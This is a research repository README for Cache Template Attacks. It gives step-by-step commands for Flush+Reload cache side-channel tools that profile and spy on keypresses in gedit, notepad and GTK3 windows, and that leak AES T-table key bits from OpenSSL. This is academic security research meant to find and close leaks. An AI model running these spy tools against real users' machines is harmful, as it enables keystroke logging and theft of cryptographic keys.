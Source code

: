 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://eprint.iacr.org/2013/448.pdf)" (2014).

The "[Cache Template Attacks]()" paper by Gruss, Spreitzer and Mangard will be published soon.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. Based on the histogram it suggests a suitable threshold value (this value is also returned by the program).

**Note:** In most programs I defined a constant MIN_CACHE_MISS_CYCLES. Change it based on your threshold, if necessary.

## Getting started: Automated keypress profiling
It is helpful to start with well observable events like key strokes and an application which is known to process such events (for instance an editor). You find the profiling tools in the profiling folder.

Run the following commands to find keypress information leakage in a program (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling/linux_low_frequency_example
make
./spy.sh 5 200 gedit # in our example we profile keypresses in gedit
```
The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

## Getting started: Keypresses (with libxdotool)
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep gdk-3
7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step. Using the libxdo library. Be sure to install it before trying this.

**Note:** There is a second version which runs without libxdo, but then you have to issue the events by some other means.

During the profiling we will simulate a huge number of key presses. Therefore, your test system will probably not be usable for a few minutes to hours. Switch to an already opened gedit window before ./spy is started.
On Linux, run the following lines:
```
cd profiling/linux_low_frequency_example
make
echo "switch to gedit window"
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```
On Windows with MSYS/MinGW, run the following lines:
```
cd profiling/windows_low_frequency_example
mingw32-make
echo "switch to notepad window"
sleep 5; ./spy 200 C:\Windows\System32\notepad.exe > notepad.csv
```

The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

You are generally looking for events which have single high peaks, like the following:
```
file,  addr,   0,   1,   2,   3,   4,   5,   6,   7,   8,   9,   a,   b,   c,   d,   e,   f,   g,   h,   i,   j,   k,   l,   m,   n,   o,   p,   q,   r,   s,   t,   u,   v,   w,   x,   y,   z
/usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2, 0x85ec0,=   3/ 110,=   0/ 112,=   0/ 117,=   0/ 122,=   0/ 120,=   1/ 123,=   0/ 125,=   0/ 123,=   1/ 124,=   0/ 124,=   1/ 123,=   0/ 120,=   0/ 122,=   0/ 121,=   0/ 122,=   0/ 123,=   0/ 122,=   0/ 123,=   1/ 123,=   1/ 121,=   0/ 118,=   0/ 123,=   0/ 122,= 126/ 122,=   0/ 122,=   2/ 117,=   0/ 117,=   0/ 119,=   0/ 121,=   0/ 123,=   3/ 118,=  14/ 122,=   0/ 120,=   0/ 122,=   0/ 117,=   4/ 116
```
This one had 126 cache hits during 122 key presses of the key N. And almost none when pressing other keys.

To verify our results we will now use the generic exploitation spy tool:
```
cd exploitation/generic
make
./spy /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 0x85ec0
```
Now this tool prints a message exactly when a user presses N (in any GTK3 window).
This spy tool can also be used on Windows just like that.

## Getting started: Keypresses (without libxdotool)
Without libxdotool we can use the generic low frequency profiling tool.
This tool requires you to generate the events somehow. Depending on what you want to profile this can be another program simulating key strokes, a jammed key, a program which constantly triggers the event to exploit (an encryption...).
In our case we will just jam a key and create a Cache Template showing which addresses react on key strokes. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. In the previous example we used libxdotool for this purpose.

On Windows or OSX you might not have procfs to retrieve the shared library mappings.
However, on Windows there is vmmap which gives you the same information and on OSX you can use at least ldd and scan the binary itself. Therefore, we execute the generic example tool similar as before:
```
cd profiling/generic_low_frequency_example
make
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```

## OpenSSL AES T-Table attack
This example requires a self-compiled OpenSSL library to enable it's T-Table-based AES implementation.
Place libcrypto.so in the same folder and make sure the program actually uses it as a shared library.
Then run
```
cd profiling/aes_example
make
./spy
```
The T-Table is easily locatable in the log file as there are only 64 addresses which are frequently accessed, but not always accessed.
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the exploitation phase the spy tool has to trigger encryptions itself with an unknown key and can then trivially determine the upper 4 bits of each key byte after about 64 encryptions.

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 

## Fully automated attack
In this example we will run a script which will automatically execute the profiling phase as described before and then switch to the multi_spy exploitation tool as soon as a result is available.

Then run
```
cd exploitation/multi_spy
make
cd ../../profiling/linux_low_frequency_automated
./spy.sh 5 200 /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
The spy tool should switch into exploitation mode after profiling is completed. The result of the profiling phase is printed on the screen, for instance:
```
Events per address:
 0x85d00:q
 0x85d40:q
 0x85d80:ghijklnqtuvwz
 0x85dc0:iuzn
 0x85e00:iznuj
 0x85e40:inzu
 0x85e80:n
 0x85ec0:n
```

That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.
